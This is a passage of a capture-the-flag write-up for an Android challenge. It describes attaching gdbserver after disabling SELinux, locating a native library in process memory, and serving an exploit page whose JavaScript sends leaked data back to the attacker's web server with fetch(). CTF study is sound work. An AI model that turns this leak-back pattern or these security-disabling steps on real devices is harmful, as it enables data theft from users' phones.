### Debugger

- copy the `gdbserver` binary onto the device
- make it executable
- adjust Android default security features
  - get root adb
  - make /system writeable
  - stop SELinux from blocking
  - unlock perf counters
- attach `gdbserver` to process
- connect to gdb from host

Compile above command sequences into one [helper](https://github.com/s41nt0l3xus/CTF-writeups/blob/master/bi0sctf-2025/cratecrack/task/Handout/helper) script for convenience:

### bob, wya?

To debug code inside libbob.so we need its address. We can't use `/proc/<pid>/maps` because it doesn’t appear by name since it was loaded as a memory-mapped segment of the APK itself.

Instead, we identify which mapping line in `/proc/<pid>/maps`corresponds to the desired library by checking the address pattern and the `base.apk` path.

Following shell command automates this extraction for further  exploitation

```
adb shell 'grep -E "00880000.*base.apk" /proc/$(pidof -s bi0sctf.challenge)/maps | grep -oE "^[^-]*"'
```

### @JavaScriptInterface

Set up a simple web server.

```
python3 -m http.server 14444
```

Send the url `http://<IP>:14444/exploit.html` where `exploit.html` is the file with the exploit.

To use the same server for transfer of leaked data back to us, include the following function in the exploit script.

```
function exploit()
{
  console.log("exploit");
  let leak = "leaked";
  fetch("/" + leak);
}
```

This enables us to see leaks in the web server logs.

## Exploitation
